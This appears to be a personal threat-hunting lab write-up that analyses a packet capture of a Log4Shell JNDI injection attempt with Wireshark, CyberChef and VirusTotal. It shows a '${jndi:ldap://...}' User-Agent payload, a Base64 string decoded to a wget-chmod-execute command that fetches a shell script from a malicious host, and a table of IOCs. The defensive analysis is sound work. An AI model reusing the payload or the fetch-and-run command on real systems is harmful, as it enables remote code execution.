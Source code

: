 #  Remote Code Execution Attempt via Log4j (JNDI Injection)

## Overview

In this lab, I documents the investigation of a malicious packet capture (PCAP) containing a real-world Log4j (Log4Shell) exploit attempt. The objective was to detect signs of remote code execution (RCE), identify Indicators of Compromise (IOCs), and validate attacker infrastructure using open-source tools. This project demonstrates skills in threat hunting, packet analysis, payload decoding, and threat intelligence.

##  Objective

- Analyze a suspicious `.pcapng` file  
- Detect Log4j exploit attempts via JNDI injection  
- Decode any hidden payloads  
- Confirm if any callback/C2 behavior occurred  
- Extract IOCs and validate threat infrastructure
  
---

##  Tools Used


- **Wireshark** (v4.4.6)  
- **CyberChef** (Base64 decoding)  
- **VirusTotal** (IP reputation lookup)

----

## Detection Techniques Used


- Wireshark display filters
- TCP stream inspection
- CyberChef decoding
- IP reputation check via VirusTotal

---

### Step 1 : Initial Packet Capture Review

- Loaded the `.pcapng` file into **Wireshark**
- Since this was an offline PCAP, interface selection was irrelevant

---

### Step 2: Applied Filter to Detect Log4j Exploits

**Filter Used:** ip contains "jndi"


**Goal:** Detect `${jndi:...}` pattern commonly used in Log4Shell attacks

**Findings:**

- Multiple HTTP POST requests to `198.71.247.91` (SERVER IP)
- Suspicious `User-Agent` headers containing: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}


---

### Step 3: Isolate Callback Behavior

**Filter Used:**

(ip contains "jndi") or (tcp.flags == 0x002 and ip.src == 198.71.247.91)


**Goal:** Identify callback attempts to attacker-controlled servers (C2).

---

### Step 4: Decode the Payload with CyberChef

**Base64 Payload Extracted:**

d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==



**Decoded with CyberChef:**  

wget http://62.210.130.250/lh.sh ; chmod +x lh.sh; ./lh.sh

 
This screenshot shows the decoding process in **CyberChef**, where the Base64-encoded string is transformed into a shell command. The output reveals the intent to download and execute a remote shell script, indicating a clear attempt at remote code execution.

![CyberChef decoding Base64 payload](Screnshotslog4j/cyberchef.png)



**Interpretation:**

- Downloads a shell script from `62.210.130.250`
- Makes it executable and runs it
- Confirms a remote code execution attempt

---

### Step 5: Validate Malware Host with VirusTotal
 
This screenshot shows that multiple security vendors (e.g., BitDefender, ESET, Dr.Web) flagged this IP as **Malicious**, **Malware**, or **Phishing**.

![VirusTotal analysis of 62.210.130.250](Screnshotslog4j/virustotal_62.210.130.250.png)

**Queried IP:** `62.210.130.250`  
**Result:** Flagged as malicious by 12+ security vendors

---

## 🔎 Additional Observations

- Attacker LDAP server `45.137.21.9:1389` delivered the malicious redirect
- Script `lh.sh` likely contains second-stage malware or C2 payload

---

##  Filters Used

- `ip contains "jndi"`  
- `tcp.flags == 0x002 and ip.src == 198.71.247.91`  
- `frame contains "ldap"`  
- `http contains "Base64"`  
- `http.request.method == "POST"`

---

## 🚨 Indicators of Compromise (IOCs)

| Type               | Value                          |
|--------------------|--------------------------------|
| Attacker LDAP IP   | `45.137.21.9`                  |
| Malware Host IP    | `62.210.130.250`               |
| Targeted Server IP | `198.71.247.91`                |
| Payload Pattern    | `${jndi:ldap://...}`           |
| Payload Script     | `lh.sh` (via `wget`)           |

---

## 💡 Summary of Insights

- Real-world **Log4j RCE** attempt detected
- Payload was **Base64 encoded** to obscure intent
- Malicious infrastructure still active at time of analysis
- No full C2 stream detected, but **SYN packets suggest callbacks**
  
---

## 📚 Lessons Learned

- Log4j exploits can hide in HTTP headers like `User-Agent`
- Always decode suspicious strings to understand payload behavior
- Outbound SYNs may indicate attempted **C2 communication**
- Cross-referencing IOCs with services like **VirusTotal** increases confidence


---

## ✅ Conclusion

This concludes **Case Study #1** in the Network Threat Hunting Lab.  
It demonstrates a full-stack analysis pipeline suitable for my:

- SOC analyst internship applications  
- Blue team/IR skill demonstration  
- Personal cybersecurity lab documentation

---

* This personal lab project demonstrates my understanding of network protocols, threat patterns, and detection techniques used in real SOC environments.

